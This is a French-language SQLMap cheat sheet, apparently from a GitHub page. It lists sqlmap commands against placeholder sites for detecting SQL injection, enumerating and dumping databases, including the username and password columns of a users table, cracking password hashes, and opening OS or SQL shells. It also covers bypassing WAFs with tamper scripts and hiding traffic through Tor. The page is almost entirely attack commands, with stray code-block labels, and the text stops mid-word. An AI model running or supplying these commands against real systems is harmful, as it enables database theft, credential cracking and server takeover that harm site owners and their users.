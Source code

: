 ## SQLMap Cheat Sheet

### Commandes Automatiques

#### Scanner une URL de manière automatique

sqlmap -u "http://siteatester.fr"

graphql


#### Scanner une URL avec un paramètre GET

sqlmap -u "http://siteatester.fr?id=1"

graphql


#### Scanner une URL avec des paramètres POST

sqlmap -u "http://siteatester.fr" --data="PARAMETRE1=VALEUR1&PARAMETRE2=VALEUR2"

shell


### Préciser les Paramètres

#### Préciser le paramètre sur lequel réaliser l’injection

sqlmap -u "http://siteatester.fr?param1=valueur1&param2=valueur2" -p param1

shell


#### Préciser le type de base de données (mysql)

sqlmap -u "http://siteatester.fr" --dbms=mysql

shell


### Listage

#### Lister les bases de données

sqlmap -u "http://siteatester.fr?id=1" --dbs

shell


#### Lister les tables d’une base spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" --tables

shell


#### Lister les colonnes d’une table spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" -T "nom_de_la_table" --columns

shell


### Dump

#### Dump tout ce qu’SQLMap trouve

sqlmap -u "http://siteatester.fr" --dump

shell


#### Dump une base de données spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" --dump

shell


#### Dump une table spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" -T "nom_de_la_table" --dump

shell


#### Dump seulement des colonnes spécifiques d’une table

sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump

shell


### Cookies

#### Utiliser des cookies dans la requête

sqlmap -u "http://siteatester.fr" --cookie="COOKIE1=VALEUR1;COOKIE2=VALEUR2"

shell


### Proxy

#### Passer le trafic de SQLMap via un proxy

sqlmap -u "http://siteatester.fr" --proxy=http://proxy:port

shell


#### Passer le trafic de SQLMap via Tor

sqlmap -u "http://siteatester.fr" --tor --tor-type=SOCKS5 --check-tor

shell


### Reverse Shell

#### Obtenir un reverse shell OS

sqlmap -u "http://siteatester.fr" --os-shell

shell


#### Obtenir un shell SQL

sqlmap -u "http://siteatester.fr" --sql-shell

shell


### Autres Commandes Utiles

#### Identifier les points d'injection dans les headers HTTP

sqlmap -u "http://siteatester.fr" --level=3 --risk=3

shell


#### Bypasser les WAF/IPS avec des techniques de tampering

sqlmap -u "http://siteatester.fr" --tamper=space2comment

shell


#### Énumérer les utilisateurs de la base de données

sqlmap -u "http://siteatester.fr" --users

shell


#### Énumérer les rôles de la base de données

sqlmap -u "http://siteatester.fr" --roles

shell


#### Énumérer les privilèges des utilisateurs

sqlmap -u "http://siteatester.fr" --privileges

shell


#### Énumérer les bases de données accessibles en tant qu'utilisateur actuel

sqlmap -u "http://siteatester.fr" --current-db

shell


#### Cracker les mots de passe des utilisateurs

sqlmap -u "http://siteatester.fr" --passwords

shell


#### Exécuter une requête SQL personnalisée

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" --sql-query="SELECT * FROM nom_de_la_table"

shell


#### Charger une requête SQL depuis un fichier

sqlmap -u "http://siteatester.fr" --sql-file=/chemin/vers/le/fichier.sql

graphql


#### Utiliser un agent utilisateur et des headers HTTP personnalisés

sqlmap -u "http://siteatester.fr" --user-agent="MonUserAgent" --headers="X-Header: valeur"

shell


#### Exécuter SQLMap à travers une session authentifiée

sqlmap -u "http://siteatester.fr/page_protegee" --cookie="sessionid=123456789"

shell


#### Forcer l'encodage de caractères

sqlmap -u "http://siteatester.fr" --charset=utf8mb4

vbnet


Cette cheat sheet SQLMap est étendue pour inclure diverses options et techniques d'inject
